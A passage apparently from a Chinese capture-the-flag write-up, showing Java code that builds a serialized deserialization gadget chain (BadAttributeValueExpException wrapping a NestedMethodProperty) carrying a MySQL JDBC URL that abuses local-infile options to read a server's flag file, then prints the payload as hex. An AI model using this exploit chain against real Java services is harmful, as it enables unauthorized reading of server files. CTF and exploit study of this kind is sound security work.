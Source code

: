 ```bash
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream out = new ObjectOutputStream(bos);
        out.writeObject(obj);
        out.flush();
        return bos.toByteArray();
    }
    public static String bytesToHexString(byte[] bArray) {
        StringBuffer sb = new StringBuffer(bArray.length);
        for (byte b : bArray) {
            String sTemp = Integer.toHexString(255 & b);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }


    public static void main(String[] args) throws Exception {

        MyBean myBean =new MyBean();
        myBean.setDatabase("mysql://xxx:3306/test?user=fileread_file:///flag.txt&ALLOWLOADLOCALINFILE=true&maxAllowedPacket=65536&allowUrlInLocalInfile=true#");

        PropertysetItem pItem = new PropertysetItem();

        NestedMethodProperty<Object> nmprop = new NestedMethodProperty<Object>(myBean, "Connection");
        pItem.addItemProperty("Connection", nmprop);

        // 实例化 BadAttributeValueExpException 并反射写入
        BadAttributeValueExpException exception = new BadAttributeValueExpException("zjacky");
        Field field     = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(exception, pItem);

        // 序列化并输出 HEX 序列化结果
        System.out.println(bytesToHexString(ser(exception)));

    }
}
```

这里有一个很重要的东西，就是包名一定要得对 (CTFer 的痛)
